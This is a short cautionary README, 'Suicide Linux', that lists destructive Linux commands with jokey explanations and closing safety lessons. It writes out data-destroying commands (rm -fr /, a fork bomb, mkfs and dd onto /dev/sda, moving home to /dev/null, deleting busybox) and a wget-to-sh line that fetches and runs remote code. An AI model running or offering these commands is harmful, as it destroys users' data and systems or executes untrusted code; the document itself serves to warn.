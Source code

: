Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `format C:` of the old DOS? this have the same result.

### Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


## Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


## Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


## Stranger Danger

`wget http://example.com/something -O – | sh –`


## You will be no more busy

`rm -f /usr/sbin/busybox`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
